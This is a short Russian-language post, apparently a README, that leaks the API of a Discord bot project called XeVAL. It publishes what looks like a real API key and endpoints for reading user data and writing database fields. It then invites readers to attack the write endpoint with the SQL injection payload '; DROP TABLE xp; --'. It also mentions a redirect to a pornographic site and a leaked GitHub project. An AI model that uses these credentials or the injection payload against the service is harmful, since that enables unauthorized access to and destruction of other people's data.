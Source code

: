 Редирект на гей-порно: http://xeval.ga

**Старая система API: (URL новой не известен)**

- Получения информации о юзере https://xeval.ga/api/users/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=485760845142556682&id=[DISCORD ID ЮЗЕРА]

- Изменение чего-то в базе (с SQL инъекцией!): https://xeval.ga/api/modify/?api_key=dsODorrEckd12Ddc.ifRdl.KOA&id=[DISCORD ID ЮЗЕРА]&field=[ПОЛЕ В БАЗЕ]&value=[ЗНАЧЕНИЕ]

В последнем запросе об изменении можно вставить, что угодно. Хоть `; DROP TABLE xp; --` :)

Развлекайтесь, но не забывайте, там все ЧСВ)

**UPD:** URL нового API - xeval.xyz/api, но ключ доступа вроде сменили.

Проект на гитхабе так и остался слитым, https://github.com/XeVAL-PROJECT

Мой Discord - X-50#9495
